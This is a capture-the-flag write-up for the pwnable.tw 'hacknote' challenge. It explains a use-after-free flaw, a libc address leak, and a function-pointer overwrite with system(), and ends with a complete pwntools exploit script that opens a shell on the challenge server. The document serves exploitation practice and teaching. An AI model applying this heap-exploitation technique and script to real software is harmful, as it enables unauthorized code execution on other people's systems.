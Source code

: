 
# 📌 **hacknote - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  

### 📌 **Vulnerable Function: `FUN_080487d4`**  
The vulnerability exists in the function **`FUN_080487d4`**, which suffers from a **Use-After-Free (UAF)** issue.  

---

### 🛠️ **Breakdown of the Issue**  

- The program allows us to create **a maximum of 5 notes**, where we specify the size of each note, and memory is allocated dynamically from the **heap**.  
- Each allocated note has an **extra seperate 8 bytes** for a function pointer, which is used when printing the note and the buffer ptr for the note description.  
- When a note is **freed**, its reference is **not set to NULL**, leading to **Use-After-Free (UAF)** and potential **Double-Free** vulnerabilities.  
- However, **Double-Free is not exploitable** here since the program restricts note creation to only 5 times.  
- **UAF is useful**, as it allows us to hijack the function pointer and overwrite it to achieve **EIP control**.  

---

## 🏴 **Exploitation Plan**  

### 1️⃣ **Leaking a libc address**  
- Allocate a **200-byte chunk** and then **free it**.
- Allocate a guard chunk to prevent the target chunk from merging with the top chunk upon being freed.
- Since the chunk goes to the **unsorted bin**, the **bk pointer** will leak an address from the **main arena** in libc.  
- Allocate a new chunk smaller than 200 bytes to write the first 4 bytes which are zeroed to leaking the bk pointer (the next 4 bytes).

### 2️⃣ **Hijacking the Function Pointer**  
- Allocate two chunks of random sizes (each greater than 16 bytes) to ensure they don’t end up in the same fastbin bucket (which holds chunks up to 16 bytes). The additional 8 bytes allocated alongside each chunk will help us later retrieve and overwrite the function pointer used for printing the note.
  ```
    +-------------------------------+
    |      chunk1 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk1 ptr        |
    +-------------------------------+  <- Chunk 1 metadata
    |        40 bytes               |
    +-------------------------------+
    |      chunk2 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk2 ptr        |
    +-------------------------------+  <- Chunk 2 metadata
    |        40 bytes               |
    +-------------------------------+
    |            TOP                 |  <- Top chunk (wilderness)
    |            ...                 |
    +-------------------------------+
  ```
- Free them, and then allocate a new **8-byte chunk**.
  ```
      +-------------------------------+
    |    Chunk 3 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk1 ptr        |
    +-------------------------------+  
    |            FREE                |
    +-------------------------------+
    |       Chunk 3 (8 bytes)        |
    +-------------------------------+
    |  system  |        sh           |
    +-------------------------------+  
    |            FREE                |
    +-------------------------------+
    |            TOP                 |  <- Top chunk (wilderness)
    |            ...                 |
    +-------------------------------+
  ```
- This allows us to **reclaim a previously freed note’s chunk** from the fastbin.  
- Overwrite the **function pointer** (used for printing notes) with **`system()`**, leading to **EIP control**.  
- UAF for the previous note to print its content which will result in calling system.
---

## 🔹 **Exploit Code**  
```python
#!/usr/bin/python3.10
from pwn import *

# p = process("./hacknote_patched")
p = remote("chall.pwnable.tw", 10102)

index = 0

def add_note(p, size, note):
    p.sendafter("Your choice :", "1")
    p.sendafter("Note size :", str(size))
    p.sendafter("Content :", note)

def delete_note(p, ind):
    p.sendafter("Your choice :", "2")
    p.sendafter("Index :", str(ind))

def print_node(p, ind, data2recv):
    p.sendafter("Your choice :", "3")
    p.sendafter("Index :", str(ind))
    if data2recv != "" :
	    p.recvuntil("CCCC")
	    return p.recvline()[:-1]


puts_got_addr = 0x804a024


add_note(p, 200, "AAAA")
add_note(p, 40, "BBBB")
delete_note(p, 0)

# Leak libc address
add_note(p, 16, "CCCC")  # Leak libc - 0x175f38 = system
add_note(p, 40, "DDDD")
addr = int.from_bytes(print_node(p, 0, "CCCC"), "little")
system_addr = addr - 0x175f38

print(f"Leaked address: {hex(addr)}")
print(f"System address: {hex(system_addr)}")


delete_note(p, 0)
delete_note(p, 3)
add_note(p, 8, p32(system_addr, "little") + b';sh\x00')
print_node(p, 0, "")

p.interactive()
